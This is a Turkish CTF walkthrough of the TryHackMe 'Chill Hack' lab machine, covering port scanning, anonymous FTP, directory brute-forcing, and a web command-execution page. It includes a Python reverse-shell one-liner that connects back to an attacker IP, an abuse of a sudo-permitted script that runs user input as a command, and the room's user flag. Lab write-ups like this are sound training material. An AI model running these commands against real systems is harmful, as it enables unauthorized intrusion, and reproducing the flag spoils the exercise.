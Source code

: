 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/chillhack">Chill Hack</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

---

Öncelikle nmap taraması başlatalım.


```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.28.212 
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-11 17:30 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 17:30
Scanning 10.10.28.212 [4 ports]
Completed Ping Scan at 17:30, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:30
Completed Parallel DNS resolution of 1 host. at 17:30, 0.00s elapsed
Initiating SYN Stealth Scan at 17:30
Scanning 10.10.28.212 (10.10.28.212) [1000 ports]
Discovered open port 22/tcp on 10.10.28.212
Discovered open port 80/tcp on 10.10.28.212
Discovered open port 21/tcp on 10.10.28.212
Completed SYN Stealth Scan at 17:30, 1.41s elapsed (1000 total ports)
Initiating Service scan at 17:30
Scanning 3 services on 10.10.28.212 (10.10.28.212)
Completed Service scan at 17:31, 6.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.28.212.
Initiating NSE at 17:31
Completed NSE at 17:31, 0.43s elapsed
Initiating NSE at 17:31
Completed NSE at 17:31, 0.38s elapsed
Nmap scan report for 10.10.28.212 (10.10.28.212)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.040KB)
```                    

ftp servisine anonymous olarak girmeyi deneyelim.

```                   
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.28.212        
Connected to 10.10.28.212.
220 (vsFTPd 3.0.3)
Name (10.10.28.212:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||10060|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||57821|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |****************************************************************|    90       58.35 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.94 KiB/s)
ftp> exit
221 Goodbye.
```         

note.txt dosyası buluyorum ve indirip içeriğine bakıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a1.png?raw=true)


Henüz bununla ne yapılacağından tam olarak emin değilim, o yüzden numaralandırmaya devam edelim. İki olası kullanıcı adımız var: Anurodh ve Apaar.

Web sitesini ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a2.png?raw=true)

Siteye gittiğimizde basit bir web sayfası buluyoruz.

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a3.png?raw=true)

secret sayfasını buluyorum ve araştırmak için siteye gidiyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a4.png?raw=true)

Komut çalıştırabileceğimiz bir websitesi bırak kurcalayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a5.png?raw=true)

[Revshell](https://www.revshells.com/) sitesine giderek reverse shell kodunu kopyalıyorum.

```
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a6.png?raw=true)

Makineye giriş yapmayı başardım.

Shellimizi stabil hale getirelim.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Apaar'ın ana dizinindeki local.txt bayrağına erişmeye çalışırken erişim reddedildi. Www-data kullanıcısının ayrıcalıklarını yükseltmemiz gerekecek gibi görünüyor.

```
sudo -l
```
```
ww-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

İlginç, dosyayı cat ile açalım.

```
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash
echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
echo "Thank you for your precious time!"
```

Bu dosya ile apaar kullanıcısına geçebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a7.png?raw=true)

user bayrağını alalım.

```
apaar@ubuntu:~$ ls
ls
local.txt
apaar@ubuntu:~$ cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

>{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

Geri yetki yükseltmek ve root bayrağını almak kaldı.

